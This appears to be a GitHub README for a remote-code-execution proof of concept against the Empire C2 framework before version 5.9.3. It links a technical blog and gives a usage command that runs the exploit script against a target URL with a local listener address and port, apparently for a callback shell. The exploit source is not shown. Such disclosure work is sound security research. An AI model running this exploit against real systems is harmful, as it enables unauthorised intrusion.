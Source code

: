 # Empire-C2-RCE-PoC
RCE PoC for Empire C2 framework &lt;5.9.3

### Technical Blog
[Exploiting Empire C2 Framework](https://aceresponder.com/blog/exploiting-empire-c2-framework)

### Usage

```
pip install -r requirements.txt
python3 ./rotj.py 'http://192.168.158.171:80' 127.0.0.1 4444
```
